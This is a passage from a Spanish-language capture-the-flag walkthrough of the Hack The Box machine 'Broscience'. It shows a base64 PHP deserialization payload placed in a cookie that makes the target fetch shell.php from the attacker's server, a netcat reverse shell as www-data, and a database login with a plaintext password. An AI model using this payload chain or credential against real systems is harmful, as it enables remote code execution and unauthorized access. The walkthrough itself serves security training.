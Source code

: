 ```
❯ php utils.php
TzoxNToiQXZhdGFySW50ZXJmYWNlIjoyOntzOjM6InRtcCI7czoyODoiaHR0cDovLzEwLjEwLjE2LjY4L3NoZWxsLnBocCI7czo3OiJpbWdQYXRoIjtzOjExOiIuL3NoZWxsLnBocCI7fQ==
```

Ahora cargamos ese base64 a las cookies, y recargamos la página

`Nota:` Ponemos los dos "==" url encodeados cuando los pongamos en la página antes de recargar

![Cookies]({{ 'assets/img/commons/Broscience/cookie.png' | relative_url }}){: .center-image }
_Cambiando Cookies_

Luego nos vamos a "https://broscience.htb/shell.php" para que se ejecute el scrip. Pero nos ponemos en escucha por el puerto 80 con python y en escucha con netcat por el puerto 443

```
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.95.77 - - [09/Jan/2023 19:06:14] "GET /shell.php HTTP/1.0" 200 -
10.129.95.77 - - [09/Jan/2023 19:06:14] "GET /shell.php HTTP/1.0" 200 -
10.129.95.77 - - [09/Jan/2023 19:06:15] "GET /shell.php HTTP/1.0" 200 -
```

```
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.68] from (UNKNOWN) [10.129.95.77] 37776
Linux broscience 5.10.0-20-amd64 #1 SMP Debian 5.10.158-2 (2022-12-13) x86_64 GNU/Linux
 19:06:17 up 19:34,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname -I
10.129.95.77 dead:beef::250:56ff:feb9:c1d3
```
Una vez hemos obtenido acceso, hay que cambiar de usuario. Para ello nos conectamos a la base de datos que se emplea. Si hacemos un "ps -faux" para ver las tareas que se están ejecutando, vemos un "postgress" ya con esto sabes que se emplea Postgress SQL

```
www-data@broscience:/$ psql -U dbuser -h localhost -W -d broscience 
Password: RangeOfMotion%777
```
Enumeramos las tablas que hay 

```
broscience=> \dt;
           List of relations
 Schema |   Name    | Type  |  Owner   
--------+-----------+-------+----------
 public | comments  | table | postgres
 public | exercises | table | postgres
 public | users     | table | postgres
(3 rows)

broscience=> 
```
